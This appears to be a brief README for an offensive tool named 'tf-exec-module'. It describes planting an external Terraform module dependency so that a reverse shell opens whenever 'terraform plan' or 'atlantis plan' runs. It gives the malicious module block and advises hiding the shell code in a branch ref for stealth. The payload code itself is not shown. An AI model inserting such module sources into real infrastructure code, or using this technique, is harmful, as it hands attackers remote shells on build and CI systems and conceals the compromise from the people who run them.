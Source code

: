 # tf-exec-module
Terraform file external dependency injection to get rev shell when terraform plan or atlantis plan is run.

module "trust_me_not" {
  source = "git@github.com:ardroci/tf-exec-module"
}
For an even more stealth attack you can use the ref feature to hide the terraform rev shell code in a branch inside of the repo, something like: git@github.com:ardroci/tf-exec-module?ref=b401d2b
